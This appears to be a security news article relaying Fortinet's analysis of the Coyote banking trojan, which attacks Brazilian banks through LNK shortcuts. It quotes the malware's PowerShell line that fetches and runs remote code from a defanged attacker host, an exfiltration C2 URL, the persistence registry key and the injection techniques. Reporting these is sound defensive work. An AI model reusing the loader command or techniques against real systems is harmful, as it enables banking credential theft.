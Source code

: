 ```yaml
---
title: "Coyote Banking Malware Weaponizing Windows LNK Files To Execute Malicious Scripts"
date: 2025-02-01
---
```


A new wave of cyberattacks leveraging the Coyote Banking Trojan has been identified, targeting financial institutions in Brazil.

This sophisticated malware employs malicious Windows LNK (shortcut) files as an entry point to execute PowerShell scripts, enabling multi-stage infection chains that ends in data theft and system compromise.

The attack begins with a malicious LNK file that executes a stealthy PowerShell command.

This command connects to a remote server to download additional payloads. The initial PowerShell script is as follows:-

```
-w hid -noni -ep Bypass -c "Start-Job -Name PSSGR -ScriptBlock { IEX (iwr -Uri 'hxxps://tbet[.]geontrigame[.]com/zxchzzmism' -UseBasicParsing).Content }; Start-Sleep 131."
```

Fortinet researchers noted that this script initiates the download of encoded shellcode, which is decoded and executed to load the next stage of the attack.

<figure>

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgBjMyBjlqVlRxeiPngCu6wp5E-CzVNQLju_h_8i04ZS1N7-qQVlXCK6xPZ6qiDaB5NT7xbAMJ3C8pIrJzh1R30wujNgtdNdcoPTRldejOxUQQ-Ca-BW4Tx0jcGDWCkI_A-BDhBz2m5wGmE_31j67UD_QEafSxX9xaEKafjBSkjvA0dKAMGBRNipb9bbS8/s16000/Attack%20chain%20(Source%20-%20Fortinet).webp)

<figcaption>

Attack chain (Source – Fortinet)

</figcaption>

</figure>

## **Attack Process**

1. **LNK File Exploitation**: The shortcut file is crafted to include malicious arguments in its “Target” field. Upon execution, it triggers the embedded PowerShell script.

- Example Target Path: `cmd.exe /c powershell.exe -ExecutionPolicy Bypass -File malicious.ps1`.

<figure>

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh4L_tIxfwzMBlMRGuVRUCs0O7jyuhoRiJm_GbraZ0xI2n0XXtUQ0cJYhjePQOSbfAp6W-kwz4qI5bWPLWu6-Orz40BMqmCZGlgDgJ-rJjvblXa7e3UJVHPL-HJXtHwobwhGK8z7bMC27FvIUnWffBBuaqtBJRmKaEso279-rsqUVz-jywRt9J0HiO8ugo/s16000/LNK%20file%20(Source%20-%20Fortinet).webp)

<figcaption>

LNK file (Source – Fortinet)

</figcaption>

</figure>

2. **Payload Delivery**: The downloaded script decodes two embedded data segments and injects them into memory using Windows API functions like `VirtualAllocEx` and `WriteProcessMemory`. This process is facilitated by a loader DLL (`bmwiMcDec`), which uses `CreateRemoteThread` to execute the injected code.

5. **Persistence Mechanism**: The malware modifies the Windows Registry at:-

```
   HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionRun
```

It creates a new entry with a randomized name pointing to a Base64-encoded PowerShell command for subsequent payload execution.

4. **Command and Control (C2) Communication**: Coyote establishes secure communication with its C2 servers using SSL channels. It transmits system information, including machine name, username, and antivirus details, encoded in Base64 and reversed for obfuscation. Example URL:

```
   hxxps://yezh[.]geontrigame[.]com/hqizjs/?I=y4CMuADfvJHUgATMgM3dvRmbpdFIOZ2bz9mcjlWT8JXZk5WZmVGRgM3dvRmbpdFfzImcoNEfOIDROUI
```

The malware offers multitude of capabilities like keylogging and screenshot capture, displaying phishing overlays mimicking banking interfaces, terminating processes and shutting down systems, and blocking user access with deceptive messages like “Working on updates.”

Coyote employs modern programming tools like Nim and Node.js, enhancing its stealth and complexity.

The malware uses DLL side-loading via legitimate executables (`obs-browser-page.exe`) to evade detection.

Additionally, it leverages the Squirrel installer framework for distribution, disguising itself as a legitimate update package.

Coyote primarily targets over 70 Brazilian financial institutions and cryptocurrency platforms.

It monitors active windows for specific banking applications or websites, initiating malicious actions when detected.

To protect against such threats, avoid opening unsolicited LNK files and ensure antivirus software is regularly updated with signatures capable of detecting threats like LNK/Agent.D!tr.

Monitoring registry changes for unauthorized entries helps detect suspicious activity, while implementing endpoint detection tools enables the analysis of PowerShell activity for potential threats.

**`Collect Threat Intelligence with TI Lookup to Improve Your Company’s Security - Get 50 Free Request`**

The post Coyote Banking Malware Weaponizing Windows LNK Files To Execute Malicious Scripts appeared first on Cyber Security News.

Go to Source
